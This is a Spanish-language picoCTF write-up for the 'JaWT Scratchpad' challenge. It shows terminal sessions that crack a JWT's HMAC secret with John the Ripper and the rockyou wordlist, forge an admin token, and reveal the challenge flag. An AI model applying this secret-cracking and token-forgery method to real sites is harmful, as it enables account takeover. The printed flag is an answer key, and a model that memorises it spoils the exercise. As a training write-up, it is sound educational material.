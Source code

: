# -   JaWT Scratchpad


## Descripción
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/63090/` or http://jupiter.challenges.picoctf.org:63090

## Pistas
- What is that cookie?
- Have you heard of JWT?

## Solución

- Entramos a la pagina web:    http://jupiter.challenges.picoctf.org:63090
- Este desafío es sobre Json Web Tokens. Al visitar el enlace, vemos una página que solicita el nombre de usuario. Al proporcionar un nombre de usuario que no sea administrador, se nos proporciona un área de texto para escribir. Se crea una nueva cookie llamada 'jwt'. El nombre de usuario que proporcioné fue 'karen'.
- El token Jwt en la cookie se usa para firmar. El token se puede inspeccionar en: [JWT debugger](https://jwt.io/#debugger) .
- La carga útil consiste solo en el usuario. Tenemos que cambiar el usuario a admin para acceder a la página y obtener la bandera. Pero cuando cambiamos el valor sin conocer la clave secreta, la firma cambiará y nuestro token jwt dejará de ser válido. Por lo tanto, necesitamos encontrar la clave antes de poder cambiar el token.
- Hay una referencia a John en la página web proporcionada que da una pista de que también podríamos intentar un ataque de diccionario en la clave secreta. La lista de palabras utilizada para el ataque es rockyou.txt (una lista de palabras popular) .
- Se aplica fuerza bruta al token 
- Se crea un archivo de texto, pegamos el JWT original en él y se guarda
``` bash
┌──(kali㉿kali)-[~]
└─$ ls
Descargas  Documentos  Escritorio  flagout.txt  hack-notas  Imágenes  Música  Plantillas  Público  Vídeos
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ cd Documentos                                                                                             
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documentos]
└─$ ls           
 notas-hacking  'Primer Parcial '   token
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documentos]
└─$ cat token    
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiS2FyZW4ifQ.aDCJXUpv4v-5d2B0J1kH3_baTPHnGttzgwcpLiExA70
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documentos]
└─$ john
Created directory: /home/kali/.john
John the Ripper 1.9.0-jumbo-1+bleeding-aec1328d6c 2021-11-02 10:45:52 +0100 OMP [linux-gnu 64-bit x86_64 SSE2 AC]
Copyright (c) 1996-2021 by Solar Designer and others
Homepage: https://www.openwall.com/john/

Usage: john [OPTIONS] [PASSWORD-FILES]

Use --help to list all available options.
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documentos]
└─$ john token
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
0g 0:00:00:04  3/3 0g/s 854562p/s 854562c/s 854562C/s cuciness..1blomm
0g 0:00:00:09  3/3 0g/s 1627Kp/s 1627Kc/s 1627KC/s r138550..plyd
0g 0:00:01:36  3/3 0g/s 2241Kp/s 2241Kc/s 2241KC/s uap..30068c
0g 0:00:01:37  3/3 0g/s 2242Kp/s 2242Kc/s 2242KC/s 32ad6d..32a4kh
0g 0:00:01:37  3/3 0g/s 2242Kp/s 2242Kc/s 2242KC/s 3g1s1a..3g1m06
Session aborted
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documentos]
└─$ sudo gzip -d rockyou.txt.gz
[sudo] contraseña para kali: 
gzip: rockyou.txt.gz: No such file or directory
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documentos]
└─$ cd /usr/share/wordlists 
                                                                                                                                                            
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ ls -lah
total 51M
drwxr-xr-x   2 root root 4.0K ene 31 17:38 .
drwxr-xr-x 341 root root  12K feb  7 19:12 ..
lrwxrwxrwx   1 root root   26 ene 31 17:38 amass -> /usr/share/amass/wordlists
lrwxrwxrwx   1 root root   25 ene 31 17:38 dirb -> /usr/share/dirb/wordlists
lrwxrwxrwx   1 root root   30 ene 31 17:38 dirbuster -> /usr/share/dirbuster/wordlists
lrwxrwxrwx   1 root root   41 ene 31 17:38 fasttrack.txt -> /usr/share/set/src/fasttrack/wordlist.txt
lrwxrwxrwx   1 root root   45 ene 31 17:38 fern-wifi -> /usr/share/fern-wifi-cracker/extras/wordlists
lrwxrwxrwx   1 root root   28 ene 31 17:38 john.lst -> /usr/share/john/password.lst
lrwxrwxrwx   1 root root   27 ene 31 17:38 legion -> /usr/share/legion/wordlists
lrwxrwxrwx   1 root root   46 ene 31 17:38 metasploit -> /usr/share/metasploit-framework/data/wordlists
lrwxrwxrwx   1 root root   41 ene 31 17:38 nmap.lst -> /usr/share/nmap/nselib/data/passwords.lst
-rw-r--r--   1 root root  51M may 31  2022 rockyou.txt.gz
lrwxrwxrwx   1 root root   39 ene 31 17:38 sqlmap.txt -> /usr/share/sqlmap/data/txt/wordlist.txt
lrwxrwxrwx   1 root root   25 ene 31 17:38 wfuzz -> /usr/share/wfuzz/wordlist
lrwxrwxrwx   1 root root   37 ene 31 17:38 wifite.txt -> /usr/share/dict/wordlist-probable.txt
                                                                                                                                                            
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ sudo gzip -d rockyou.txt.gz
                                                                                                                                                            
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ ls -lah                    
total 134M
drwxr-xr-x   2 root root 4.0K mar 14 12:58 .
drwxr-xr-x 341 root root  12K feb  7 19:12 ..
lrwxrwxrwx   1 root root   26 ene 31 17:38 amass -> /usr/share/amass/wordlists
lrwxrwxrwx   1 root root   25 ene 31 17:38 dirb -> /usr/share/dirb/wordlists
lrwxrwxrwx   1 root root   30 ene 31 17:38 dirbuster -> /usr/share/dirbuster/wordlists
lrwxrwxrwx   1 root root   41 ene 31 17:38 fasttrack.txt -> /usr/share/set/src/fasttrack/wordlist.txt
lrwxrwxrwx   1 root root   45 ene 31 17:38 fern-wifi -> /usr/share/fern-wifi-cracker/extras/wordlists
lrwxrwxrwx   1 root root   28 ene 31 17:38 john.lst -> /usr/share/john/password.lst
lrwxrwxrwx   1 root root   27 ene 31 17:38 legion -> /usr/share/legion/wordlists
lrwxrwxrwx   1 root root   46 ene 31 17:38 metasploit -> /usr/share/metasploit-framework/data/wordlists
lrwxrwxrwx   1 root root   41 ene 31 17:38 nmap.lst -> /usr/share/nmap/nselib/data/passwords.lst
-rw-r--r--   1 root root 134M may 31  2022 rockyou.txt
lrwxrwxrwx   1 root root   39 ene 31 17:38 sqlmap.txt -> /usr/share/sqlmap/data/txt/wordlist.txt
lrwxrwxrwx   1 root root   25 ene 31 17:38 wfuzz -> /usr/share/wfuzz/wordlist
lrwxrwxrwx   1 root root   37 ene 31 17:38 wifite.txt -> /usr/share/dict/wordlist-probable.txt
                                                                                                                                                            
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ head rockyou.txt 
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
                                                                                                                                                            
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ wc rockyou.txt 
 14344392  14442062 139921507 rockyou.txt
                                                                                                                                                            
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ cd                     
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ pwd    
/home/kali
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ ls     
Descargas  Documentos  Escritorio  flagout.txt  hack-notas  Imágenes  Música  Plantillas  Público  Vídeos
                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ cd Documentos 
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documentos]
└─$ john token
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
0g 0:00:00:08  3/3 0g/s 1725Kp/s 1725Kc/s 1725KC/s revcit..ricc3s
Session aborted
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documentos]
└─$ john token -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:02 DONE (2023-03-14 13:03) 0.3759g/s 2780Kp/s 2780Kc/s 2780KC/s iloverob4live345..ilovepatri
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documentos]
└─$ 

```

- Se obtiene el secreto utilizado: 'ilovepico'
- Volvemos a utilizar el [depurador JWT](https://jwt.io/#debugger) . Cambiamos el usuario a administrador y luego actualice el secreto con la clave encontrada. Esto le dará un nuevo JWT. 
- Se cambia el valor de la cookie al nuevo JWT y se actualiza la página 
- Se obtirne la bandera en el área de texto

## Bandera
picoCTF{jawt_was_just_what_you_thought_f859ab2f}

## Referencias
- [JSON][https://jwt.io/]


